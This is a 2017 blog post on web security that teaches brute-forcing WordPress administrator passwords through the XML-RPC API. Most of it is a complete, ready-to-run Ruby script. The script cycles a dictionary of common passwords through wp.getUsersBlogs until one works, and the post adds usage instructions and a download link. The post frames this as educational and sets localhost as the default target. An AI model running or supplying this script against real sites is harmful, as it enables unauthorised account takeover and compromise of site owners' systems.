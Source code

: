```yaml
---
title: "Wordpress brute force password attack using XML-RPC API"
date: 2017-05-14 17:12
comments: true
categories:
  - web-security
tags:
  - wordpress
description: wordpress attack, wordpres password brute force, wordpress xmlrpc api, wordpress hacking
keywords: wordpress hacking, wordpress brute force, attacking wordpress, wordpress xmlrpc api, web hacking, wordpress information gathering, wordpress security, wordpress auditing
sharing: true
---
```

<img src="/assets/images/wordpress-hacking.png"/> 

#### All code and information for educational purposes only

Starting a series of posts about web security, which also a passion of mine besides development.  
The first published post on this topic about getting admin password for wordpress using [XML-RPC API](https://codex.wordpress.org/XML-RPC_WordPress_API/Users) and brute force attack. Second choice may be a direct brute force attack via post form on 'wp-login.php' which may be more complex during
'Account Lockout Policy' and other things, which I will cover in other post.

<!-- more -->

#### What is XML-RPC?
The XML-RPC is an API that enables developers create WordPress ‘apps’ (like clients, plugins and themes), that allow you to make remote HTTP requests to your WordPress site...[(link to full article)](https://blogvault.net/how-xml-rpc-affects-wordpress-security/)  
The simplest way to check if XML-RPC API enabled(default) in your wordpress is by open your browser and entering something like http://127.0.0.1:8080/xmlrpc.php, if response you see is 'XML-RPC server accepts POST requests only.', XML-RPC API enabled. 

#### Other great tools for wordpress password brute force ####
[WPScan](https://wpscan.org/) - great tool for wordpress information gathering and password brute force  
[Nmap with http-wordpress-brute script](https://nmap.org/nsedoc/scripts/http-wordpress-brute.html) - performs brute force password auditing against Wordpress CMS/blog installations.

#### Let's do it ####
Let's start to build simple script which will find admin password for wordpress using dictionary, I am using simple [sucuri dictionary](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt) as default for out brute force attack.  
We will use ['wp.getUsersBlogs'](https://codex.wordpress.org/XML-RPC_wp) method for our purposes, to retrieve the blogs of the users. This method receives username and password and returns array of values. In case of success we getting array with user's info, otherwise xmlrpc call throws exception, see the code below to understand better.


Our script will use [xml-rpc client for ruby](https://ruby-doc.org/stdlib-2.3.1/libdoc/xmlrpc/rdoc/XMLRPC/Client.html)


#### wp_find_password.rb script
``` ruby 
#!/usr/bin/env ruby
# encoding: UTF-8

require 'optparse'
require 'xmlrpc/client'
require 'uri'


def wp_find_password(options)
  # https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt
  passwords = %w(admin 123456 password 12345678 typhoon 666666 111111 1234567 qwerty
                 siteadmin qwerty siteadmin administrator root 123123 123321
                 1234567890 letmein123 test123 demo123 pass123 123qwe qwe123 654321 loveyou adminadmin123)

  uri = URI(options[:url])
  server = XMLRPC::Client.new(uri.host, uri.path, uri.port)
  server.http_header_extra = {'accept-encoding' => 'identity'}
  
  if options[:wordlist] != 'default'
    passwords = File.readlines(options[:wordlist])
    passwords.collect! {|s| s.chomp}
  end
  
  passwords.each do |password|
    begin
      response = server.call("wp.getUsersBlogs", options[:username], password)
      if response
        puts "--- Success: PASSWORD: #{password} for username: #{options[:username]} ---\n"
        break;
      end
    rescue XMLRPC::FaultException => e
      puts "Wrong password: #{password} for username: #{options[:username]}, response code #{e.faultCode}\n"
    end
  end
end

options = {:url => 'http://127.0.0.1:8080/wordpress/xmlrpc.php', :username => 'admin', :wordlist => 'default'}

OptionParser.new do |opts|
  opts.banner = "Usage: wp_find_password.rb [options]"
  opts.on('--username username', 'Username, default: admin') do |username|
    options[:username] = username
  end

  opts.on('--url url', 'Url, default: http://127.0.0.1/wordpress/xmlrpc.php') do |url|
    options[:url] = url
  end

  opts.on('--wordlist wordlist', 'Word List, default: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt') do |wordlist|
    options[:wordlist] = wordlist
  end

  opts.on('-h', '--help', 'Displays Help') do
    puts opts
    exit
  end
end.parse!

wp_find_password(options)
``` 

You may download this script [here](https://github.com/warolv/wordpress-scripts)

Usage example: wp_find_password.rb --url 127.0.0.1:8080/wordpress/xmlrpc.php  --wordlist /Users/your-user/Downloads/wordlist.txt --username admin

Options:
Usage: wp_find_password.rb [options]
        --username username          Username, default: admin
        --url url                    Url, default: http://127.0.0.1/wordpress/xmlrpc.php
        --wordlist wordlist          Dictionary
    -h, --help                       Displays Help